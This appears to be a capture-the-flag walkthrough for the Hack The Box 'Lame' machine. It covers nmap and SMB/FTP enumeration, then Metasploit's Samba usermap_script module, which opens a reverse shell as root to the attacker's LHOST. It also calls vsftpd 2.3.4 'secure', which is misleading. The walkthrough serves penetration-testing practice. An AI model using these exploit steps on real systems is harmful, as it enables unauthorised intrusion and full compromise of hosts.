

# Lame      


## Solution

### Scan with nmap

Type:

```
nmap -Pn -sC -sV {target ip} -v
```

`-Pn` - This flag tells Nmap to skip the host discovery phase, assuming the host is up. Normally, Nmap would perform a ping scan to determine if a host is online before scanning it. With -Pn, Nmap skips this step and proceeds directly to port scanning. This can be useful if a host is behind a firewall that blocks ICMP ping requests.

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.


Here are the descriptions for the open ports shown in the screenshots:

### **21/tcp (FTP)**
This port is used by the `File Transfer Protocol (FTP)`, specifically the `vsftpd 2.3.4` service, which is known for being secure, fast, and stable. The service allows anonymous FTP login, meaning users can connect without providing credentials, as indicated by the `FTP code 230`. The server status shows that the FTP connection uses plain text for both control and data connections, with no session bandwidth limit and a session timeout set to 300 seconds. The server is actively connected to the IP address `10.10.16.7`.

### **22/tcp (SSH)**
This port is used by `OpenSSH`, version 4.7p1, running on a Debian system. The SSH service allows secure remote login and network services, using both `DSA` and `RSA` keys for authentication. The service supports SSH protocol 2.0, providing encrypted communication to protect data transmitted between the client and server.

### **139/tcp (NetBIOS-SSN)**
This port is used by the `Samba` service, which provides file and print services to SMB/CIFS clients. The service allows computers to share files and printers in a network. The version running is between 3.X and 4.X, and it is configured within the `WORKGROUP` workgroup. Samba allows interoperability between Unix/Linux and Windows systems by using the SMB protocol.

### **445/tcp (NetBIOS-SSN)**
Similar to port 139, this port is also used by the `Samba` service, specifically version 3.0.20-Debian. The service is running on a Unix/Linux system and is also part of the `WORKGROUP` workgroup. Samba on this port enables direct TCP/IP connections for file and print services, bypassing the older NetBIOS layer, which is used on port 139.

### ftp

First, let's check if there's anything interesting in the `FTP`.

Type:

```
ftp {target ip}
```


As a login use `Anonymous` and if it asks you about the password - press `Enter`.


We can see that there is `nothing`.

### SearchSploit and Metasploit

Next, we look up potential exploits for `vsftpd` version `2.3.4`.

```
searchsploit vsftpd 2.3.4
```

There is one and is using `Metasploit`.


Let's launch the `Metasploit` console:

```
msfconsole
```


When you are `in`, type:

```
search vsftpd 2.3.4
```


Copy path:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

and type:

```
use exploit/unix/ftp/vsftpd_234_backdoor
```


then:

```
show options
```


We have to set up `RHOST`. To do this type:

```
set RHOST {target ip}
```


When everything is set, type:

```
exploit
```


It didn't work. The `exploit` failed to land us a shell, so we move on to the other services.

### smbclient

Time to explore another path, we know that the `Samba` service is running.

Type:

```
smbclient -L \\\\{target ip}\\
```

When it asks you about the password - just press `Enter`.


From all of the `shares`, we only have access to the `tmp` one.

```
smbclient \\\\{target ip}\\tmp 
```


It is nothing interesting there.

### SearchSploit and Metasploit, part II

Time to look up potential exploits for `Samba` version `3.0.20`.

Type:

```
searchsploit Samba 3.0.20 
```

There is one that looks good for us and is using `Metasploit`.


Let's again launch the `Metasploit` console:

```
msfconsole
```

When you are `in`, type:

```
search Samba 3.0.20
```


Copy path:

```
exploit/multi/samba/usermap_script
```

and type:

```
use exploit/multi/samba/usermap_script
```

then:

```
show options
```


We have to set up `RHOST` and `what is important` - we have to set up `LHOST` as we are connected to the `Hack The Box` through VPN.

To do this type:

```
set RHOST {target ip}
```

and 

```
set LHOST {your tun0 ip}
```



If you don't know your `tun0` ip, type `ifconfig` or `ip a` in new tab.

When everything is set, type:

```
exploit
```


We have a `shell`.

Let's stabilize it.

Type:

```
shell
```

`Pressing` `Enter` might be necessary.

After that we have everything we wanted.


And what is more important - we are `root`.

Perfect.

### Get the user flag

The `user` flag is in `/home/makis` path.


### Get the root flag

And the `Root` flag is in the `/root` directory.


### Paste the flags

